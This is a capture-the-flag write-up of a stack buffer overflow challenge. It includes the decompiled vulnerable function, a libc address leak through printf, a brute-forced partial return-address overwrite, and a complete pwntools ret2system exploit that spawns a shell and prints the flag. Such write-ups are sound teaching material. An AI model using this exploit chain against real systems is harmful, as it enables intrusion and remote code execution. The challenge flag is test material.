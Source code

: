 ## Question 

This program is so small that you just can't do anything here :)

``nc 34.141.229.188 1337``

[chall](chall)

## Solution

The binary suffers a buffer overflow since there are only 0x10 bytes reserved for the buffer on the stack but the program reads in 0x100 bytes.

```
000011c9  int32_t main(int32_t argc, char** argv, char** envp)

000011c9  {
000011e4      setbuf(stdout, nullptr);
000011f8      setbuf(stdin, nullptr);
0000120e      void var_18;
0000120e      memset(&var_18, 0, 0x10);
0000121d      puts("What's your favourite movie?: ");
00001238      read(0, &var_18, 0x100);
00001253      printf("Oooh you like %s?\n", &var_18);
0000125e      return 0;
0000125e  }

.text (PROGBITS) section ended  {0x10e0-0x125f}
```

However, exploiting this is complicated since the binary has ``PIE`` protection mechanism. This means we can't reliably return to anywhere without a memory leak of either the stack, base address, or libc base address.

```
└─# pwn checksec ./chall
[*] '/root/workspace/nitectf/toosmall/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled

```

Luckily it looks like the buffer is on the stack and borders right up against a libc address. If we write 24 bytes, the printf format specifier ``%s`` will just treat our buffer as a continguous memory block 32 bytes long (our 24 bytes + the 8 byte libc address.)

```
└─# cyclic 24
aaaabaaacaaadaaaeaaafaaa
 
┌──(root㉿b81e079dfb55)-[~/workspace/nitectf/toosmall]
└─# ./chall
What's your favourite movie?: 
aaaabaaacaaadaaaeaaafaaa
Oooh you like aaaabaaacaaadaaaeaaafaaa
Ѯw?
Illegal instruction
```

However, we must return to ``main`` to restart the program and reintroduce the vulnerabiliyt after leaking the ``libc base address``. We can do this with a ``partial overwrite``. I was pretty lazy at this point and just decided to brute force the bytes ``\x00-\xff`` and see which ones would return me to main. Full script is [here](brute-toosmall.py)

```python
def check_partial(overwrite):
  p = start()
  chain = b'A'*24+chr(overwrite).encode()
  p.send(chain)
  time.sleep(2)
  p.recvuntil(b'Oooh you like')
  p.recvuntil(b'?')
  p.recvuntil(b'\n')
  try:
    print(overwrite,p.recvline())
  except:
    pass

R = 255
threads = []
for x in range(0,R):
    threads.append(multiprocessing.Process(target = check_partial, args=(x,)))
    threads[x].start()
for x in range(0,R):
    threads[x].join()
```

The first example I saw where I return to ``main`` was with a partial overwrite of ``\x1c``. when the script displayed ``28 b"What's your favourite movie?: \n"`` With this knowledge, I combined the leak, return to main, and then used a ``ret2system`` in ``libc`` on the second pass.

```python
from pwn import *

binary = args.BIN
context.terminal = ["tmux", "splitw", "-h"]
e = context.binary = ELF(binary,checksec=False)

gs = '''
break *$rebase(0x125d)
continue
'''

libc = ELF('./libc.so.6',checksec=False)

def start():
    if args.GDB:
        return gdb.debug(e.path, gdbscript=gs)
    elif args.REMOTE:
        return remote('34.141.229.188',1337)
    else:
        return process(e.path)

p = start()

def leak_libc():
  chain = b'A'*24+chr(28).encode()
  chain = b'A'*24+b'\x1c'
  p.send(chain)
  p.recvuntil(b'Oooh you like AAAAAAAAAAAAAAAAAAAAAAAA')
  leak=u64(p.recvline().strip(b'\n')[0:6]+b'\x00\x00')
  libc_start_main = leak+(0x7fb2c9a0bdc0-0x7fb2c9a0bd1c)
  libc.address=libc_start_main-libc.sym['__libc_start_main']

def ret2system():
  r = ROP(libc)
  chain = b'A'*24
  chain += p64(r.find_gadget(['ret'])[0])
  chain += p64(r.find_gadget(['pop rdi','ret'])[0])
  chain += p64(next(libc.search(b'/bin/sh')))
  chain += p64(libc.sym['system'])
  p.sendline(chain)

leak_libc()
print("libc base",hex(libc.address))
ret2system()
p.interactive()
```

Running it yields the flag

```
python3 pwn-toosmall.py BIN=./chall_patched REMOTE
[+] Opening connection to 34.141.229.188 on port 1337: Done
libc base 0x7ff0cba90000
[*] Loaded 218 cached gadgets for './libc.so.6'
[*] Switching to interactive mode
What's your favourite movie?: 
Oooh you like AAAAAAAAAAAAAAAAAAAAAAAA֜\xab\xcb\xf0\x7f?
$ cat /flag
nite{wh3n_h3_s41d_1tS_r0pp1n_t1me_1_cr13d}
```
